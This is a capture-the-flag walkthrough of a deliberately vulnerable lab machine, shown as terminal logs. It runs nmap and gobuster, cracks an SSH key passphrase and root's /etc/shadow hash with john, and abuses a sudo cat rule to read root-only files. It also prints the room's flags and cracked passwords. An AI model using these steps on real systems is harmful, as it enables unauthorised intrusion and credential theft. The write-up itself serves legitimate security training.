 NMAP SCANNING

        kali㉿kali)-[~]
        └─$ nmap -A 10.10.161.177
        Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-16 06:11 EDT
        Nmap scan report for 10.10.161.177
        Host is up (0.22s latency).
        Not shown: 998 closed ports
        PORT   STATE SERVICE VERSION
        22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
        | ssh-hostkey: 
        |   2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
        |   256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
        |_  256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
        80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
        |_http-server-header: Apache/2.4.29 (Ubuntu)
        |_http-title: Apache2 Ubuntu Default Page: It works
        Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

        Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
        Nmap done: 1 IP address (1 host up) scanned in 56.77 second

GOBUSTER DIRECRORY ENUMERATION


        ┌──(kali㉿kali)-[~]
        └─$ gobuster dir -u  http://10.10.161.177/ -w /usr/share/wordlists/dirb/common.txt
        ===============================================================
        Gobuster v3.1.0
        by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
        ===============================================================
        [+] Url:                     http://10.10.161.177/
        [+] Method:                  GET
        [+] Threads:                 10
        [+] Wordlist:                /usr/share/wordlists/dirb/common.txt
        [+] Negative Status codes:   404
        [+] User Agent:              gobuster/3.1.0
        [+] Timeout:                 10s
        ===============================================================
        2021/10/16 06:16:22 Starting gobuster in directory enumeration mode
        ===============================================================
        /.hta                 (Status: 403) [Size: 278]
        /.htpasswd            (Status: 403) [Size: 278]
        /.htaccess            (Status: 403) [Size: 278]
        /admin                (Status: 301) [Size: 314] [--> http://10.10.161.177/admin/]
        /index.html           (Status: 200) [Size: 10918]                                
        /server-status        (Status: 403) [Size: 278]                                  
                                                                                        
        ===============================================================
        2021/10/16 06:18:22 Finished
        =============================

PRIVILEGE ESCALATION & GETTING THE SHELL


        ─(kali㉿kali)-[~/Documents]
        └─$ john --wordlist=/home/kali/Documents/rockyou.txt johnid

        Using default input encoding: UTF-8
        Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
        Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
        Cost 2 (iteration count) is 1 for all loaded hashes
        Will run 4 OpenMP threads
        Note: This format may emit false positives, so it will keep trying even after
        finding a possible candidate.
        Press 'q' or Ctrl-C to abort, almost any other key for status
        rockinroll       (rsaid)
        Warning: Only 2 candidates left, minimum 4 needed for performance.
        1g 0:00:00:11 DONE (2021-10-16 05:36) 0.08547g/s 1225Kp/s 1225Kc/s 1225KC/sa6_123..*7¡Vamos!
        Session completed



        Login to john via ssh using the passphares cracked

        notice it keeps denying the password,, change the mode of the rsa file
        ──(kali㉿kali)-[~/Documents]
        └─$ chmod 600 rsaid  


        ──(kali㉿kali)-[~/Documents]
        └─$ ssh -i rsaid john@10.10.161.177                                           1 ⚙
        @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
        @         WARNING: UNPROTECTED PRIVATE KEY FILE!          @
        @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
        Permissions 0644 for 'rsaid' are too open.
        It is required that your private key files are NOT accessible by others.
        This private key will be ignored.
        Load key "rsaid": bad permissions
        john@10.10.161.177's password: 
        Permission denied, please try again.
        john@10.10.161.177's password: 
        Permission denied, please try again.
        john@10.10.161.177's password: 
        john@10.10.161.177: Permission denied (publickey,password).
                                                                                        
        ┌──(kali㉿kali)-[~/Documents]
        └─$ ssh -i rsaid john@10.10.161.177                                     255 ⨯ 1 ⚙
        Enter passphrase for key 'rsaid': 
        Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-118-generic x86_64)

        * Documentation:  https://help.ubuntu.com
        * Management:     https://landscape.canonical.com
        * Support:        https://ubuntu.com/advantage

        System information as of Sat Oct 16 09:44:46 UTC 2021

        System load:  0.0                Processes:           101
        Usage of /:   25.7% of 19.56GB   Users logged in:     0
        Memory usage: 38%                IP address for eth0: 10.10.161.177
        Swap usage:   0%


        63 packages can be updated.
        0 updates are security updates.


        Last login: Wed Sep 30 14:06:18 2020 from 192.168.1.106
        john@bruteit:~$ whoami
        john
        john@bruteit:~$ ls
        user.txt
        john@bruteit:~$ cat user.txt
                THM{a_password_is_not_a_barrier}
        john@bruteit:~$ sudo -l
        Matching Defaults entries for john on bruteit:
            env_reset, mail_badpass,
            secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

        User john may run the following commands on bruteit:
        (root) NOPASSWD: /bin/cat

        john@bruteit:~$ sudo /bin/cat /root/root.txt
                THM{pr1v1l3g3_3sc4l4t10n}


        john@bruteit:~$ sudo /bin/cat /etc/shadow
        root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:18490:0:99999:7:::
        ......................................
        thm:$6$hAlc6HXuBJHNjKzc$NPo/0/iuwh3.86PgaO97jTJJ/hmb0nPj8S/V6lZDsjUeszxFVZvuHsfcirm4zZ11IUqcoB9IEWYiCV.wcuzIZ.:18489:0:99999:7:::
        sshd:*:18489:0:99999:7:::
        john:$6$iODd0YaH$BA2G28eil/ZUZAV5uNaiNPE0Pa6XHWUFp7uNTp2mooxwa4UzhfC0kjpzPimy1slPNm9r/9soRw8KqrSgfDPfI0:18490:0:99999:7:::



        Copy the root hash to a text file
        ┌──(kali㉿kali)-[~/Documents]
        └─$ nano root.txt  

        ┌──(kali㉿kali)-[~/Documents]
        └─$ sudo john root.txt --wordlist=/home/kali/Documents/rockyou.txt
        [sudo] password for kali: 
        Created directory: /root/.john
        Using default input encoding: UTF-8
        Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
        Cost 1 (iteration count) is 5000 for all loaded hashes
        Will run 4 OpenMP threads
        Press 'q' or Ctrl-C to abort, almost any other key for status
        football         (root)
        1g 0:00:00:00 DONE (2021-10-16 06:31) 3.225g/s 825.8p/s 825.8c/s 825.8C/s 123456..freedom
        Use the "--show" option to display all of the cracked passwords reliably
        Session completed
                                    